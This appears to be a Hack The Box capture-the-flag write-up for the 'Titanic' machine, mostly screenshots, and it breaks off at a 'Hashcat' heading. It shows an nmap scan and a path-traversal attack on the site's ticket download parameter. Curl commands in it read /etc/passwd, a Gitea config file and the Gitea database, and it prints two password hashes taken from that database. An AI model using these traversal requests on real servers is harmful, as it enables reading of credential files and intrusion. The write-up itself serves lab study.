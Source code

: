 # Titanic Write-up

<img src="https://labs.hackthebox.com/storage/avatars/eb5942ec56dd9b6feb06dcf8af8aefc6.png" width="200" height="200">

## Recon

### Nmap

`nmap -sC -sV 10.10.11.55`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
    |_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
    80/tcp open  http    Apache httpd 2.4.52
    |_http-title: Did not follow redirect to http://titanic.htb/
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add host to `/etc/hosts`.

    echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts

## Exploitation

Titanic.htb main page:

![image](https://github.com/user-attachments/assets/71b40b1e-ff64-4f32-856d-54d159f23f17)

Book Your trip button

![image](https://github.com/user-attachments/assets/c4724f5d-2e45-43bd-aa4c-952e75998a42)

JSON file

![image](https://github.com/user-attachments/assets/2c105d92-c095-4a81-ae7a-f8fa08526f2e)

Request

![image](https://github.com/user-attachments/assets/c06f2384-b385-4148-a83f-e138ee65b364)

`/etc/passwd`

![image](https://github.com/user-attachments/assets/734d26d3-21bb-4858-a1fb-457834fd781f)

`/home/developer:/bin/bash`

![image](https://github.com/user-attachments/assets/003d0b52-b483-4573-a66f-85388ff02034)


Get the user flag!

![image](https://github.com/user-attachments/assets/09c488a2-b053-4995-9238-e1645627e117)

### Privilege escalation

Read `/etc/hosts`

![image](https://github.com/user-attachments/assets/2c5d511c-ba55-4c23-88e9-dbe511d1827c)

![image](https://github.com/user-attachments/assets/1cfb7600-e9eb-4e33-b328-486f4aaf510a)

Add `dev` subdomain to /etc/hosts on our machine!

    echo "10.10.11.55 dev.titanic.htb" | sudo tee -a /etc/hosts

dev.titanic.htb page

![image](https://github.com/user-attachments/assets/dcc13324-0065-4100-a93e-bf6aa610ecaf)

![image](https://github.com/user-attachments/assets/1172ba9c-2c0a-4ddf-b862-59a55bff68a2)

![image](https://github.com/user-attachments/assets/16f2df5c-2c1d-4d1d-b43a-b7a5f75fcc00)

![image](https://github.com/user-attachments/assets/ce09544c-a113-4fa2-aeac-8ae117163f06)

    curl --path-as-is 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini'

![image](https://github.com/user-attachments/assets/5266dcb4-847a-4764-9000-5e95937617a1)

     /download?ticket=/home/developer/gitea/data/gitea/gitea.db

![image](https://github.com/user-attachments/assets/bc683fe5-e5e5-4f29-b383-8b0115d1bf71)

    curl --path-as-is 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' --output database

![image](https://github.com/user-attachments/assets/06bd7efb-ce02-4a1e-875f-2c7263d42e50)

sqlitebrowser

![image](https://github.com/user-attachments/assets/cc4e3c59-08f5-4824-bcef-0229057b30b3)

`administrator`:`root@titanic.htb`:`cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136`

`administrator`:`developer@titanic.htb`:`e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56`

Hashcat



